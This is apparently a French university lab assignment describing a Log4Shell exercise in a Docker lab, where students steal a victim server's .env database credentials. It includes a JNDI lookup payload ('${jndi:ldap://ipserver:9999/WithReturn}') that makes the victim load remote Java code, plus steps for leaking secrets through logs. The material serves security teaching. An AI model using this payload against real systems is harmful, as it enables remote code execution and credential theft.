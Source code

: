 # Sujet - TP Log4Shell 
### BERTRAND Timothé - BLANC Olivier - PAYS Antoine - GENIN Fabien
### A rendre pour le jeudi 10 février 2022 23H59


## Exercice

### **Objectif** : Récuperer le contenu de la BDD avec les informations présentes dans le fichier .env de la victime.


**Schéma explicatif rapide :** 

Vous êtes un attaquant et vous souhaitez accéder à une BDD, sauf que vous n'avez pas les informations pour vous connectez à la BDD. Ces informations se trouvent dans le fichier .env de la victime.
Il faut savoir que le développeur du serveur victime a choisi de logger les identifiants d'un utilisateur lors de l'envoi du formulaire.


## Configuration

Pour utiliser les commandes docker vous devrez vous connecter à VDN à l'IUT

Si vous utilisez les machines de l'iut, lancer `vdn docker-tmp`.
Start la machine root@debian-1
Dans la console de la VM root@debian-1, créer un répertoire "log4shell" 
Faire `cd log4shell` et ensuite `git clone https://github.com/Fabinhio25/TPLog4Shell`

Faire un `make all` pour créer tous les DockerFiles

Après avoir fait le make all, faire un `docker-compose up` dans le repertoire cloné.
Récupérer les IP de server et de victime dans la console quand docker-compose up est executé
Victim_1 | Running on IP : XXX.XXX  
Server_1 | Running on IP : XXX.XXX
L'IP server sera a mettre dans le lookup plus tard

Etapes à reproduire pour la réalisation du tp :

Créer un fichier java dans lequel le code devra récupérer et écrire le .env de la base de données dans les logs du serveur.
Appeler votre class java dans une requete faite au serveur, grace à un lookup vu en cours.

Exemple de lookup : "${jndi:ldap://ipserver:9999/WithReturn}"
    
Pour se connecter a la BDD : `mysql -u root -p ipadress`
    ipadress se trouve dans le .env
    
L'URL de la victime : ipvictime:8080/login


### Question : 
    
Le but est de se connecter sur le serveur de la victime en tant que administrateur. Utiliser le lookup vu en cours, afin d'appeler et d'exécuter la class (code malicieux). Pour écrire le contenu du fichier .env dans les logs, l'envoyer au loggeur du serveur afin de récupérer dans les logs du serveur. Grace à cette manipulation vous allez pouvoir récupérer l'identifiant et mot de passe de l'administrateur du serveur.

Vous trouverez des exemples du fichier java /TPLog4Shell/attacker/java/ :

Simple.java

WithReturn.java
